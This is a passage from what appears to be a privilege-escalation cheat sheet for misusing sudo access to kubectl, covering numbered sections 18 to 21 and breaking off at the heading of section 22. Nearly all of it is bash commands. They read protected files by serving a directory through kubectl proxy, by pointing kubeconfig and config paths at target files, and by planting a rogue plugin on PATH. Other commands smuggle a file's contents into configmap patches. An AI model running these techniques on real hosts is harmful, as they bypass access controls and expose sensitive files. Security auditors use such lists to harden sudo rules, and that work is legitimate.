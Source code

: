 
## 18. Signal & Process Manipulation

```bash
sudo kubectl proxy --www=/target/dir &
PID=$!
kill -STOP $PID
```

---

## 19. Advanced Configuration Abuse

```bash
echo "include: /target/file" > /tmp/config
sudo kubectl --kubeconfig=/tmp/config version

export KUBECONFIG=/target/file
sudo -E kubectl version

export XDG_CONFIG_HOME=/target/dir
sudo -E kubectl version
```

---

## 20. Plugin Architecture Exploitation

```bash
mkdir -p /tmp/kubectl-plugins
echo '#!/bin/sh\ncat /target/file' > /tmp/kubectl-plugins/kubectl-read
chmod +x /tmp/kubectl-plugins/kubectl-read
PATH=/tmp/kubectl-plugins:$PATH sudo kubectl read
```

---

## 21. Resource Patching & Manipulation

```bash
echo '{"data":{"file":"' > /tmp/patch
base64 /target/file >> /tmp/patch
echo '"}}' >> /tmp/patch
sudo kubectl patch cm test --patch-file=/tmp/patch --dry-run=client

sudo kubectl patch cm test --type='json' -p="[{'op':'add','path':'/data/file','value':'$(cat /target/file)'}]" --dry-run=client
```

---

## 22. Debugging & Development Features
